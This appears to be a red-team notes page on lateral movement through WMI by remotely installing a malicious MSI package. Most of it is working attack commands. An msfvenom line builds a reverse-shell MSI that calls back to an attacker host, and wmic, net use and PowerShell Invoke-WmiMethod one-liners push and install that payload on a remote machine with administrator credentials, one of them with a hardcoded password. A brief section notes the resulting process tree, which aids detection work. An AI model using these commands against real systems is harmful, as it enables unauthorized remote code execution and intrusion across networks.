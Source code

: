 ```yaml
---
description: WMI lateral movement with .msi packages
---
```


# WMI + MSI Lateral Movement

## Execution

Generating a payload in MSI \(Microsoft Installer Package\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.5 LPORT=443 -f msi > evil64.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-17-31-00.png)

I tried executing the .msi payload like so, but got a return code `1619` and a quick search on google returned nothing useful:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
wmic /node:10.0.0.7 /user:offense\administrator product call install PackageLocation='\\10.0.0.2\c$\experiments\evil64.msi'
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-18-45-55.png)

I had to revert to a filthy way of achieving the goal:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
net use \\10.0.0.7\c$ /user:administrator@offense; copy C:\experiments\evil64.msi \\10.0.0.7\c$\PerfLogs\setup.msi ; wmic /node:10.0.0.7 /user:administrator@offense product call install PackageLocation=c:\PerfLogs\setup.msi
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/peek-2018-10-19-18-41.gif)

Additionally, the same could of be achieved using powershell cmdlets:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential (Get-Credential)
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Get a prompt for credentials:

![](../.gitbook/assets/screenshot-from-2018-10-19-19-02-10.png)

and enjoy the code execution:

![](../.gitbook/assets/screenshot-from-2018-10-19-19-02-48.png)

Or if no GUI is available for credentials, a oneliner:

{% code-tabs %}
{% code-tabs-item title="attacker@remote" %}
```csharp
$username = 'Administrator';$password = '123456';$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword; Invoke-WmiMethod -Path win32_product -name install -argumentlist @($true,"","c:\PerfLogs\setup.msi") -ComputerName pc-w10 -Credential $credential
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/screenshot-from-2018-10-19-19-09-42.png)

## Observations

Note the process ancestry: `services > msiexec.exe > .tmp > cmd.exe`:

![](../.gitbook/assets/screenshot-from-2018-10-19-18-46-37.png)

and that the connection is initiated by the .tmp file \(I ran another test, hence another file name\):

![](../.gitbook/assets/screenshot-from-2018-10-19-18-55-53.png)

{% embed url="https://www.cybereason.com/blog/wmi-lateral-movement-win32" %}

{% embed url="https://twitter.com/buffaloverflow/status/1002523407261536256" %}

